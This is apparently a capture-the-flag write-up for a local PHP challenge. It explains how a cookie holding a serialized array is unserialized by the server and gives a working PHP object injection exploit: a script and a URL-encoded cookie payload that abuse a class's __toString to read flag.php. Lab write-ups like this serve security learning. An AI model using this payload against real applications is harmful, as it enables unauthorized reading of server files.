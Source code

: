 
#### Goals
 * Try to find the flag

#### Server Address
 * http://localhost:10002/

#### Writeups
1. access the url, we can find that there is a input form, try to input something.
2. notice cookie has been changed, a key 'list' is added.
```
a%3A1%3A%7Bi%3A0%3Bs%3A16%3A%22Hacked+by+smi1e%21%22%3B%7D
decode as url
a:1:{i:0;s:16:"Hacked by smi1e!";}
```
which means that the php code running on the server may like this
```php
$input = $_POST['a'];
$inputs = unserialize($_COOKIE['list']);
array_push($inputs, $input);
echo join('', $array);
```
3. PHP object injection!
4. then we check the html source code generated by index.php
found something interesting at the bottom
```php
#try to read flag.php	
Class person{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}
```
5. all we need to do is try to call the `_toString` function of `class person` to read the `flag.php`
6. here are the final exploit.
```php
➜  guess-the-code ls
exploit.php  flag.php
➜  guess-the-code cat exploit.php 
<?php

#try to read flag.php	
Class person{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}

$x = new person();
$x->source='flag.php';
$y = serialize(array($x));
$z = unserialize($y);
echo $z;
```
```
put the following string as $_COOKIE['list'];
a%3A1%3A%7Bi%3A0%3BO%3A6%3A%22person%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```
